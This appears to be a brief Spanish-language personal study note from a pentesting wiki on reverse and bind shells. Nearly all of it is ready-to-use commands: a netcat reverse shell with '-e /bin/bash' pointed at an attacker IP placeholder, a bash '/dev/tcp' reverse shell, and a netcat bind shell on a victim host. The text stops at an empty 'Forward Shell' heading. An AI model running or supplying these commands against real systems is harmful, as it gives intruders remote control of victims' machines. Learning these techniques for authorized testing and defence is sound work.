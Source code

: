 **Definición

---
ejecutar una consola interactiva [[Reverse Shell]]
**Sintaxis
nc -e /bin/bash [[IpAtacante]] [[puerto]]
**Ejemplo
nc -e /bin/bash 127.0.0.1 443

**Otra forma
bash -i >& /dev/tcp/127.0.0.1/puerto 0>&1

((se pone en escucha))
nc -nlvp 4646 -e /bin/bash
((habilita la cosnola))
nc ipVíctima 4646


//Forward Shell